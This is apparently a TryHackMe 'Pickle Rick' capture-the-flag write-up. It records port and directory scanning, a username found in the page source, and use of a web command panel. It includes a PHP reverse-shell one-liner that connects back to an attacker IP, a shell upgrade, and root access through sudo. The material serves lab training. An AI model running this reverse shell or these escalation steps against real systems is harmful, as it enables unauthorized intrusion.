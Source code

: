 ```yaml
---
layout: post
title:  "TryHackMe Pickle Rick writeup"
date:   2020-09-29 12:59:36 +0200
categories: writeup tryhackme
---
```

# Picke Rick

This is a writeup for TryHackMe room [Pickle Rick](https://tryhackme.com/room/picklerick) that requires me to *exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.*

## nmap

We see that there are two open ports: ssh and http.

```bash
$ nmap -A -sC 10.10.68.235
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 08:08 EEST
Nmap scan report for 10.10.68.235
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5f:f1:57:75:ec:04:1c:10:94:0a:fd:77:9d:7f:ce:51 (RSA)
|   256 f8:6c:b7:68:71:d3:d6:7a:2a:11:04:e2:79:3f:12:ae (ECDSA)
|_  256 a2:10:41:7f:30:db:26:9f:0e:0e:e3:d7:51:d1:94:57 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## http enumeration

```bash
$ gobuster -q --wordlist /usr/share/dirb/wordlists/big.txt --url http://10.10.68.235 dir
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

Let's take a look at the server. Page source reveals an username:

```html
 <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

robots.txt has an interesting string `__REDACTED__` which could be a password.

```
nikto -host http://10.10.68.235
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.68.235
+ Target Hostname:    10.10.68.235
+ Target Port:        80
+ Start Time:         2020-09-29 09:23:10 (GMT3)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
```

## 1st ingredient

Nikto found a login page. Logging in as R1ckRul3s/__REDACTED__ works. It's a command panel that executes commands. Let's run a reverse shell:

```bash
php -r '$sock=fsockopen("10.8.108.247",4444);exec("/bin/sh -i <&4 >&4 2>&4");'
$ cat Sup3rS3cretPickl3Ingred.txt
__REDACTED__
```

upgrade shell with python: 

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## 2nd ingredient

Enumerate the file system from second ingredient:
 	
```bash
$ cd /home/rick
$ ls -la
total 12
drwxrwxrwx 2 root root 4096 Feb 10  2019 .
drwxr-xr-x 4 root root 4096 Feb 10  2019 ..
-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients
$ cat "second ingredients"
__REDACTED__
```

## 3rd ingredient

Escalate privileges. First thing to try if you know the password is sudo:

```bash
sudo -l
User www-data may run the following commands on
        ip-10-10-163-235.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
sudo less /root/3rd.txt
__REDACTED__
```
